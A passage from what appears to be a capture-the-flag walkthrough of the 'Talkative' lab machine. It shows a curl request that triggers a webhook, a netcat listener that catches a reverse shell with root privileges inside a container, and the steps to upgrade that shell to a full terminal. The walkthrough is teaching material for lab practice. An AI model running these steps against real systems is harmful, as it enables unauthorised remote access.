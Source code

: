 If there are errors in my JavaScript syntax, it will tell you on revisiting this page as well.

#### Shell

With `nc` listening, I’ll use `curl` to trigger the WebHook:

```

oxdf@hacky$ curl http://talkative.htb:3000/hooks/DipzE7grNCHMg2ty4/9YNLS4NfMsRihzAP5yLoqqz98amQvACcuot3sAyfSumt2GqW
{"success":false}

```

It reports failure, but there’s a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 445
Listening on 0.0.0.0 445
Connection received on 10.10.11.155 42576

```

It’s a shell:

```

id
uid=0(root) gid=0(root) groups=0(root)

```

Upgrade with [the script trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

script /dev/null -c bash
Script started, file is /dev/null
root@c150397ccd63:/app/bundle/programs/server# ^Z
[1]+  Stopped                 nc -lnvp 445
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 445
            reset
reset: unknown terminal type unknown
Terminal type? screen
root@c150397ccd63:/app/bundle/programs/server# 

```

## Shell as root on Talkative

### File Upload

#### Initial Enumeration
